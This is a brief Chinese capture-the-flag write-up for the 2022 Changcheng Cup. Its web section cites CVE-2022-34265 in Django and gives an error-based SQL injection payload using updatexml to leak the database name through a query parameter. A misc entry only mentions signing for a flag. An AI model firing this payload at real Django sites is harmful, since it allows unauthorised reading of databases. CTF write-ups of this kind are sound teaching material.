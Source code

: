 # 2022长城杯

# web

## djangogogo

CVE2022-34265

?name={{}}

发现字段名sale_datetime,结合CVE进行报错注入

?name=year+from sale_datetime))+and+updatexml(1,concat(1,(select database()),1),1)—

![Untitled](2022长城杯%20attachments/Untitled.png)

# misc

## 签名簿

签字拿flag